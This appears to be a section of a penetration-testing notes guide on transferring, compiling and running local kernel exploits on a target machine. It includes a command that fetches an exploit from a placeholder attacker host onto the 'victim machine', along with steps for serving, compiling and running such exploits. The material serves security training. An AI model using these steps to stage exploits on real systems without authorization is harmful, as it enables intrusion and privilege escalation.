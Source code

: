 # Working with exploits
This section is mostly about local kernel exploits, because they're annoying. Remote python exploits are usually point-and-shoot and web exploits have their own section.

## Transferring exploits
The quickest way to transfer an exploit is to create a folder for your exploits and expose it with Python's webserver:
```
python -m SimpleHTTPServer 80
```
The port defaults to 8000 but 80 and 443 are usually more accessible, and wget will use 80 by default. Make sure your port choice doesn't conflict with your shell and don't leave the server running once you've served the exploit.

To download files to the victim machine:
```
wget http://[attack machine]:[port]/exploit.c
```
Make sure you are in a writable directory,`/tmp/` is usually reliable.

## Compiling exploits
First, the usual warning about randomly downloading exploits from the internet: watch out for backdoors. [Exploit-DB](https://www.exploit-db.com/) is reliable.

Second, always read the exploit comments carefully:

* Compiler options to use
* Architecture of the victim machine (32-bit or 64-bit)
* Steps to complete on the victim machine
* Code modifications

Third, if you get error messages during compilation or runtime, google them. Usually this is because the binary was compiled on the attack machine and there are quirks in architecture that can be solved by modifying compile options.

### Basic technique
The compile command looks like this:
```
gcc filename.c -o executablename
```
Before you can run it, you'll need to transfer it to the victim machine and give it the right permissions:
```
chmod u+x executablename
```
To run the executable:
```
./executablename
```

### Compiling 32-bit exploits on a 64-bit machine
Sometimes the victim machine will be 32-bit and can't accept a 64-bit compiled binary. To determine the architecture of your target:
```
uname -a
cat /proc/version
dpkg --print-architecture
arch
file /sbin/init
```
32-bit is usually represented by `i686` and 64-bit is usually represented by `x86_64`.

If a C compiler is missing or inaccessible on your victim machine, you can compile the exploits on your Kali machine but you need some extra libraries on Kali:
```
apt-get install gcc-multilib
apt-get install g++-multilib
```
You will also need to add the `-m32` flag to your compile command.

